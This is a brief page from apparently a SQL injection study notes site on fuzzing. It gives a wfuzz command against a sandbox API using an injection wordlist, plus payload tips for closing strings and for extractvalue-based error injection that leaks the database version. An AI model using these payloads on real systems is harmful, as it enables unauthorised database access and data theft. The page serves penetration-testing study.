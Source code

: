 ```yaml
---
title: Fuzzing
layout: default
parent: SQL Injection
has_children: false
nav_order: 8
---
```


Use the following:

```
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "db=mysql&id=FUZZ" -u http://sql-sandbox/api/intro
```

To properly close string remember to use `)`, for example `'))--+`

Sometimes (especially after `sort by`), can use comma to inject. For example `, extractvalue('',concat('>',version()))`